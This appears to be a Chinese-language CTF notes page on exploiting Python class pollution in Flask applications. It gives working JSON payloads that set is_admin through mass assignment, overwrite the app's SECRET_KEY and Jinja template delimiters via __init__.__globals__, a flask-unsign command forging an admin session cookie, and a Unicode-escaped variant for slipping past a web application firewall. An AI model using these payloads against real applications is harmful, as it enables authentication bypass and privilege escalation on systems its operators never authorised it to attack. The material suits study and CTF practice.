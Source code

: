 ## **flask的原型链污染**
一个注册接口，默认传递参数是form
```
 "username": "test"&"password": "test",
```
已知登录后默认的jwt中is_admin:0

我们可以传递一个json:
```
{
  "username":"test",
  "password":"test",
  "is_admin":1
}
```
直接变成管理员。


^
还可以利用原型连污染，覆盖掉全局变量中的jwt的SECRET_KEY的值
```
{
    "username": "test",
    "password": "test",
    "__init__": {"__globals__": {"app": {"config": {"SECRET_KEY": "123456"}}}}
}
```
这样就可以伪造flask的jwt。
```
flask-unsign --sign --cookie "{'is_admin': 1, 'username': 'test1'}" --secret  '123456'
 
eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ0ZXN0MSJ9.ZzYYAg.hqQmeTq4GCo4yfAofb0pngi0tpA
```


^
## **jinja模板用的[# flag #]进行原型链污染**
jinja模板用的[# flag #]，不是使用的{{ ... }}，无法进行模板注入。
则进行原型链污染。
污染 flask key 和 模板字符串。
因为是JSON，遇到waf还可以利用 JSON 解析 Unicode 来绕过 waf

```
app = Flask(__name__)
app.secret_key = generate_random_md5()


@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

这里要求password 等于全局变量app.secret_key
污染
```
{"__init__":
	{"__globals__":
		{"app":
			{
				"secret_key":"123456",
				"jinja_env":{
					"variable_start_string":"[#",
					"variable_end_string":"#]"
				}
			}
		}
	}
}
```
遇到waf，是json，直接unicode编码绕过
```
{"\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f":
	{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f":
		{"\u0061\u0070\u0070":
			{
				"secret\u005fkey":"123456",
				"jinja\u005f\u0065\u006e\u0076":{
					"variable\u005fstart\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"[#",
					"variable\u005fend\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"#]"
				}
			}
		}
	}
}
```
此时传递
```
 username=adminer & password=123456
```

